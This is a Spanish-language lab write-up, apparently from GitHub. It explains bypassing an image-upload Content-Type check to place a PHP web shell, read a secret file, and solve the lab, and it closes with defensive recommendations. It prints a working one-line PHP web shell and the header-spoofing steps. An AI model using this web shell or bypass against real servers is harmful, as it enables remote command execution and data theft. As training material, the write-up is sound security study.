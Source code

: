 # Lab: Web shell upload via Content-Type restriction bypass

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con una aplicación de blog:
![image](https://github.com/user-attachments/assets/faf57038-5687-40c1-8632-5f9a2d63059e)

Nos autenticamos con nuestras credenciales `wiener:peter` y accedemos al dashboard del usuario:
![image](https://github.com/user-attachments/assets/1aa16cfa-7fea-4cca-b070-ed55b9321cbd)

Vemos que hay una funcionalidad para subir imágenes, en este caso como sabemos que el laboratorio tiene validaciones de tipo `Content-Type`, subimos un archivo malicioso que contiene una webshell:
![image](https://github.com/user-attachments/assets/bf61dad2-78fd-41a7-8b8c-ba4729e529c3)

El servidor nos responde que el archivo cargado tiene un content type ` application/x-php` y que sólo permite `image/jpeg` o `image/png`.

Subimos una imágen válida de prueba llamada `test.png`para analizar el proceso y vemos que se carga satisfactoriamente:
![image](https://github.com/user-attachments/assets/93fa2fe4-8349-4e42-a776-6aa1451d45e3)

Inspeccionamos el directorio de carga:
![image](https://github.com/user-attachments/assets/d2b14c2b-2f31-40f5-a463-e98929be873c)


Sabemos que la petición `POST /my-account/avatar` es la siguiente:
![image](https://github.com/user-attachments/assets/b0a121f1-2a4e-4f16-b7eb-8bd6fb0b512e)

Cargamos la web shell en php siguiente:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
Procuramos dejar el encabezado `Content-Type: image/png` tal como está, ya que éste es un encabezado permitido:
![image](https://github.com/user-attachments/assets/6cf374e1-8761-4ca1-8394-551afe7d59f8)

El servidor realiza la validación únicamente sobre el encabezado Content-Type, el cual es fácilmente manipulable por el cliente. No verifica la extensión ni inspecciona el contenido real del archivo.

Accedemos al archivo `oneliner.php`:
![image](https://github.com/user-attachments/assets/67b703ba-bc22-487e-b162-d056a7cb1f2f)


Cargamos el secreto `ofXSPhdX9rYIoQoxKqO8WkMhBtKzQ9lh` y resolvemos el laboratorio:
![image](https://github.com/user-attachments/assets/39e8d0b2-533b-42dd-a3d4-6995654dce7c)

---


## ✅ Conclusión

Este laboratorio demuestra cómo una validación defectuosa basada únicamente en el encabezado `Content-Type` puede ser fácilmente eludida para cargar archivos maliciosos. Aunque el servidor intenta prevenir la ejecución de archivos peligrosos (como `.php`), confía ciegamente en los encabezados enviados por el cliente, lo cual permite al atacante disfrazar una shell web como si fuera una imagen.

A través de este bypass, pudimos subir un archivo `.php` con una webshell, accediendo a `/files/avatars/oneliner.php` y utilizando un parámetro GET para ejecutar comandos arbitrarios. En este caso, logramos leer el contenido del archivo `/home/carlos/secret` y resolver el laboratorio.

---

## 🛡️ Recomendaciones

- **No confiar en el encabezado `Content-Type` enviado por el cliente.** Este puede ser fácilmente manipulado usando herramientas como Burp Suite.
- **Validar el tipo MIME real del archivo** inspeccionando su contenido (por ejemplo, usando `file` o `finfo` en el backend).
- **Restringir extensiones a una lista blanca controlada desde el servidor.**
- **Evitar alojar archivos cargados en directorios ejecutables**, especialmente si se permiten extensiones peligrosas.
- **Aplicar permisos mínimos** en el sistema de archivos para evitar ejecución o lectura innecesaria.
- **Registrar y alertar** ante cargas sospechosas o múltiples intentos fallidos.

---

## 📚 Lecciones aprendidas

- Las validaciones superficiales pueden dar una falsa sensación de seguridad.
- Los encabezados HTTP como `Content-Type` no son confiables si provienen del lado cliente.
- Las webshells simples pueden tener un impacto crítico si se ejecutan en el servidor.
- Incluso aplicaciones que parecen tener controles pueden ser vulnerables si no se implementan de forma robusta.
- Es fundamental inspeccionar el flujo completo de carga de archivos y no asumir seguridad por “restricción visible” en el frontend.





